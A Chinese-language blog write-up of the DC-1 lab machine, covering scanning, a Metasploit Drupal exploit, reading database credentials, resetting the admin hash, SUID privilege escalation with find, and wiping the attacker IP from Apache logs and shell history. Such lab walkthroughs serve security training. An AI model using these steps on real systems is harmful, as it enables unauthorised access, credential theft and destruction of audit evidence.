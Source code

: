 ```yaml
---
layout: post
title: DC-1
subtitle: DC-1
date: 2025-07-07 14:59
author: Kyon-H
header-img: img/post-bg-2015.jpg
tags:
  - 靶场实战
published: true
---
```

## 信息搜集

### 主机发现

```
arp-scan -l
namp -T4 -A -p- 192.168.163.131 # 扫描端口
dirb http://192.168.163.131 # 扫描目录
whatweb -v 192.168.163.131
```

### 渗透
```shell
msfconsole
> search drupal
> use <id>
> set payload payload/...
> set rhosts <ip>
> options
> run
```
#### 获取flag1
![Pasted%20image%2020250707150809.png500](https://img.ghostliner.top/arJvR1.png)
提示查找配置文件
#### 获取flag2

```shell
shell
python -c "import pty;pty.spawn('/bin/bash')" #优化显示
find . -name "set*" #搜索设置文件
```

![Pasted%20image%2020250707150929.png500](https://img.ghostliner.top/MCGvyt.png)
![Pasted%20image%2020250707151035.png500](https://img.ghostliner.top/LVs8FM.png)

#### 获取flag3

获取到数据库信息
```
'database' => 'drupaldb',
'username' => 'dbuser',
'password' => 'R0ck3t',
```

```shell
mysql -h 127.0.0.1 -P 3306 -u dbuser -pR0ck3t
```

```mysql
use drupaldb;
show tables;
show columns from users;
select * from users where uid=1;
update users set pass="$S$DQCOKBJdDlel6L.ZfV1tYbTccflz6hwDisRxE25daht/qoX.Bb6g" where uid=1;
```

```shell
find . -name "*.sh"
./scripts/password-hash.sh 123
# admin原密码 $S$DvQI6Y600iNeXRIeEMF94Y6FvN8nujJcEDTCP9nS5.i38jnEKuDR
# 现密码(123) $S$DQCOKBJdDlel6L.ZfV1tYbTccflz6hwDisRxE25daht/qoX.Bb6g
```

admin登录，搜索页面发现flag3
![Pasted%20image%2020250707155935.png500](https://img.ghostliner.top/btkBWY.png)
#### 获取flag4

```shell
cat /etc/passwd
ls /home/flag4
cat /home/flag4/flag4.txt
```
![Pasted%20image%2020250707151856.png|500](https://img.ghostliner.top/Tw3JiS.png)
![Pasted%20image%2020250707151953.png|500](https://img.ghostliner.top/Gq0tZA.png)
#### 获取flag5

按提示提权

```
find / -perm -4000 2>/dev/null # 判断是否能提权
find / -perm -u=s -type f  2>/dev/null
find / -exec "/bin/bash" -p \; # 提权
```

![提权成功](https://img.ghostliner.top/tMPT5d.png)

提权成功，获取flag5

![Pasted%20image%2020250707161219.png|500](https://img.ghostliner.top/weYUZl.png)

## 痕迹清除

### 网站日志清除

```shell
find /  -type f -name "access*"
sed -i '/192.168.163.132/d' /var/log/apache2/access.log
find /  -type f -name "error*"
sed -i '/192.168.163.132/d' /var/log/apache2/error.log
```
### 数据库恢复和日志清除

![Pasted%20image%2020250707165639.png](https://img.ghostliner.top/rDCHQO.png)

```mysql
show global variables like "%log%";
```

### history

```shell
history -c
```